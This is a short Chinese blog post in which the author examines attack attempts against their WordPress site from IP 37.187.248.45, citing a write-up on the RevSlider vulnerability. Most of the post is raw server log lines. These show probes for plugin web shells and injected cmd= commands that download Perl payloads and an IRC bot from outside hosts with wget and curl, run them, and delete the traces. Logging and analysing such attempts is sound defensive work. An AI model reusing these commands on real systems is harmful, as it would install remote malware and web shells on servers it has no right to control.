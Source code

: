 ```yaml
---
layout: post
title:  "37.187.248.45又是什么鬼"
date:   2015-3-20 00:48:57 +0800
categories: 技术
---
```

这回我没事去看了看[http://identerprise.co.kr/css/qtalk.txt](http://identerprise.co.kr/css/qtalk.txt)这个文件，绝对不信这是蜘蛛了……

参考文章：[RevSlider Vulnerability Leads To Massive WordPress SoakSoak Compromise](http://blog.sucuri.net/2014/12/revslider-vulnerability-leads-to-massive-wordpress-soaksoak-compromise.html)

<!--more-->
    37.187.248.45 [20/Mar/2015:00:14:03 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php 404 0.014 0.014 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:03 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/spid2.php 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:02 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/byroe.jpg;curl%20-O%20http://identerprise.co.kr/css/byroe.jpg;fetch%20http://identerprise.co.kr/css/byroe.jpg;mv%20byroe.jpg%20spid2.php; 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:01 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/b.txt;curl%20-O%20http://identerprise.co.kr/css/b.txt;fetch%20http://identerprise.co.kr/css/b.txt;perl%20b.txt;rm%20-rf%20b.txt* 404 0.017 0.017 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:01 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/spid2.php 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:58 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/byroe.jpg;curl%20-O%20http://identerprise.co.kr/css/byroe.jpg;fetch%20http://identerprise.co.kr/css/byroe.jpg;mv%20byroe.jpg%20spid2.php; 404 0.015 0.015 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:56 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://wawalo.wap.sh/bot.txt;curl%20-O%20http://wawalo.wap.sh/bot.txt;fecth%20http://wawalo.wap.sh/bot.txt;perl%20bot.txt%20irc.ayochat.or.id;rm%20-rf%20bot.txt* 404 0.015 0.015 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:57 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/b.txt;curl%20-O%20http://identerprise.co.kr/css/b.txt;fetch%20http://identerprise.co.kr/css/b.txt;perl%20b.txt;rm%20-rf%20b.txt* 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:56 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.012 0.012 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:54 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://wawalo.wap.sh/bot.txt;curl%20-O%20http://wawalo.wap.sh/bot.txt;fecth%20http://wawalo.wap.sh/bot.txt;perl%20bot.txt%20irc.ayochat.or.id;rm%20-rf%20bot.txt* 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:52 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:52 +0800] /blog/post/18/wp-admin/admin-ajax.php 404 0.015 0.015 4477 
    www.jithee.name POST HTTP/1.0 "-" "Mozilla/5.0 (Windows NT 5.1; rv:31.0) Gecko/20100101 Firefox/31.0" yq26
      37.187.248.45 [20/Mar/2015:00:13:49 +0800] /blog/post/18/wp-content/plugins/revslider/temp/update_extract/revslider/nino.php 404 0.014 0.014 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:48 +0800] /blog/post/18/wp-content/plugins/revslider/temp/update_extract/revslider/spid.php 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:48 +0800] /wp-admin/admin-ajax.php 404 0.016 0.016 4477 
    www.jithee.name POST HTTP/1.0 "-" "Mozilla/5.0 (Windows NT 5.1; rv:31.0) Gecko/20100101 Firefox/31.0" yq26
      37.187.248.45 [20/Mar/2015:00:13:45 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:17 +0800] /blog/post/18/wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.014 0.014 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:14 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://identerprise.co.kr/css/b.txt;curl%20-O%20http://identerprise.co.kr/css/b.txt;fetch%20http://identerprise.co.kr/css/b.txt;perl%20b.txt;rm%20-rf%20b.txt* 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:13 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://wawalo.wap.sh/bot.txt;curl%20-O%20http://wawalo.wap.sh/bot.txt;fecth%20http://wawalo.wap.sh/bot.txt;perl%20bot.txt%20irc.ayochat.or.id;rm%20-rf%20bot.txt* 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:09 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.699 0.699 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
